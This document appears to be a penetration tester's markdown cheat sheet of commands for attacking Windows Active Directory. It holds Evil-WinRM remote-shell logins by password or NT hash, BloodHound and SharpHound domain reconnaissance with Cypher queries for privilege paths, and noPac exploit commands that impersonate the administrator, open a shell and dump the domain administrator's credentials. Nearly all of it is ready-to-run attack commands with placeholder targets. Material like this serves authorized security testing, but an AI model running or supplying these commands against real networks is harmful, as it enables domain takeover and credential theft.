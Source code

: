 # Evil-WinRM
https://github.com/Hackplayers/evil-winrm
```zsh
$ evil-winrm -i XXX.XXX.XXX.XXX -u TestUser
$ evil-winrm -i HOGE.com -u TestUser -H TestNTHash
```

# BloodHound  
https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
```powershell
PS> BloodHound.exe
# On GUI
## Upload Data ... zip file
## Check ... Analysis Tab
```
```zsh
# cypher
## check Enter-PSSession feasibility
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
## check SQL Server Admin access feasibility
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
## SharpHound
```powershell
PS> .\SharpHound.exe -c All --zipfilename hoge
PS> .\SharpHound.exe --CollectionMethods All --Domain HOGE.com --ExcludeDCs
```
## BloodHound.py
```zsh
$ sudo bloodhound-python -u 'TestService' -p 'TestServicePasssord' -ns XXX.XXX.XXX.XXX -d hoge.local -c all
$ sudo bloodhound-python -u 'TestUser' -p 'TestPassword' -ns XXX.XXX.XXX.XXX -d hoge.local -c all
$ ls
$ zip -r hoge_bh.zip *.json
$ sudo neo4j start
```

# noPac
https://github.com/Ridter/noPac
```zsh
$ sudo python3 scanner.py hoge.com/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX -use-ldap
$ sudo python3 noPac.py hoge.com/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX  -dc-host TestAdHost -shell --impersonate administrator -use-ldap
$ sudo python3 noPac.py hoge.com/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX  -dc-host TestAdHost --impersonate administrator -use-ldap -dump -just-dc-user hoge/administrator
```
